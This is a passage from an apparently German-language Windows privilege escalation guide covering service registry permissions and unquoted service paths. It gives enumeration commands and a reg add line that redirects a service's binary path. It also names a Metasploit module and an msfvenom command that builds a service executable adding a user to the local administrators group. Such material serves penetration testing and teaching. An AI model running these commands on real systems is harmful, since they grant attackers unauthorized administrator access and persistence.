 Um den Pfad der ausgeführten Binärdatei zu ändern:
```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```
### Berechtigungen für AppendData/AddSubdirectory im Registrierungsdienst

Wenn Sie diese Berechtigung über eine Registrierung haben, bedeutet dies, dass **Sie Unterregistrierungen von dieser erstellen können**. Im Fall von Windows-Diensten ist dies **ausreichend, um beliebigen Code auszuführen:**

{% content-ref url="appenddata-addsubdirectory-permission-over-service-registry.md" %}
[appenddata-addsubdirectory-permission-over-service-registry.md](appenddata-addsubdirectory-permission-over-service-registry.md)
{% endcontent-ref %}

### Unquoted Service Paths

Wenn der Pfad zu einer ausführbaren Datei nicht in Anführungszeichen steht, wird Windows versuchen, jede Endung vor einem Leerzeichen auszuführen.

Zum Beispiel wird Windows für den Pfad _C:\Program Files\Some Folder\Service.exe_ versuchen, auszuführen:
```powershell
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```
Liste alle nicht zitierten Dienstpfade auf, die nicht zu integrierten Windows-Diensten gehören:
```powershell
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v '\"'
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v '\"'  # Not only auto services

# Using PowerUp.ps1
Get-ServiceUnquoted -Verbose
```

```powershell
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
)
)
```

```powershell
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
**Sie können diese Schwachstelle erkennen und ausnutzen** mit metasploit: `exploit/windows/local/trusted\_service\_path` Sie können manuell eine Dienst-Binärdatei mit metasploit erstellen:
```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```
### Wiederherstellungsaktionen
